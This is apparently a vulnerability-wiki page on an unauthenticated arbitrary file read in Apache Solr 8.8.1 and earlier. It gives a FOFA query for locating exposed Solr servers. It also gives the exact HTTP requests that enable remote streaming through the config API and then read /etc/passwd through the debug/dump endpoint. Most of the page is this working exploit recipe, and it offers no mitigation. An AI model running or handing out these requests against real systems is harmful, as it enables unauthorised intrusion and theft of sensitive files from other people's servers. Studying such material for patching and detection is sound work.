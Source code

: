 ```yaml
---
title: Apache Solr config Arbitrary file reading vulnerability
---
```


# Apache Solr config Arbitrary file reading vulnerability

## Vulnerability Description

Apache Solr has an arbitrary file reading vulnerability, and an attacker can obtain sensitive files of the target server without authorization

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Apache Solr <= 8.8.1</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">
<a-button href="https://fofa.info/result?qbase64=YXBwPSJBUEFDSEUtU29sciI%3D">FOFA: app="APACHE-Solr"</a-button>
</a-checkbox>

## Vulnerability reappears

Visit the Solr Admin Admin page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/deaf982e-2ddb-4021-9b5b-21ac946a910a.png)

Get core information

```
/solr/admin/cores?indexInfo=false&wt=json
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/image-20220307142829893.png)

Send a request

```
POST /solr/core/config 
Content-Type: application/json

{"set-property":{"requestDispatcher.requestParsers.enableRemoteStreaming":true},"olrkzv64tv":"="}
```

Read the file again

```
POST /solr/core/debug/dump?param=ContentStreams 

stream.url=file:///etc/passwd
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/image-20220307142740665.png)